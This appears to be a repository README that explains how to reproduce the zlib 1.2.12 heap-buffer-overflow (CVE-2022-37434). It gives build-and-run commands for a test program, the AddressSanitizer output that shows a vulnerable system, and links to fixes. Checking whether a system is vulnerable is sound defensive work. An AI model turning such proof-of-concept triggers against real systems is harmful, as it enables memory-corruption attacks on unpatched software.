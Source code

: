 # zlib 1.2.12 heap overflow

## Example to reproduce

Pick an operating system to test. e.g:
```
$ docker run -it ubuntu:bionic
// OR
$ docker run -it ubuntu:jammy
```

```
$ apt update && apt install -y git gcc zlib1g-dev
$ git clone https://github.com/myo-swi/zlib_overflow
$ cd zlib_overflow
$ gcc -g -o inf1 inf1.c -fsanitize=address -lz
$ ./inf1
```

If NOT vulnerable, it will print:
```
$ ./inf1
wtf: 7160 high water mark
```

If vulnerable, it will print:
```
$ ./inf1
=================================================================
==3405==ERROR: AddressSanitizer: heap-buffer-overflow on address 0x604000000080 at pc 0x7f0f6ae53397 bp 0x7ffff4adcbf0 sp 0x7ffff4adc398
READ of size 4294967294 at 0x604000000080 thread T0
[... see asan.log ... ]
```

## Original notes

Test program is a slightly modified version of test/infcover.c

1. unpack zlib
2. build inf1.c

$ gcc   -g -o  inf1 inf1.c -fsanitize=address -I.  trees.c zutil.c inftrees.c deflate.c inflate.c inffast.c crc32.c adler32.c

Found by Evgeny Legerov of @intevydis


Fixed in zlib develop branch https://github.com/madler/zlib/commit/eff308af425b67093bab25f80f1ae950166bece1

This fix introduced NULL pointer dereference.

Correct fix is here https://cgit.freebsd.org/src/commit/sys/contrib/zlib/inflate.c?id=2969066f73fc67a614144ac09b9f3f5291937fed


https://www.cve.org/CVERecord?id=CVE-2022-37434
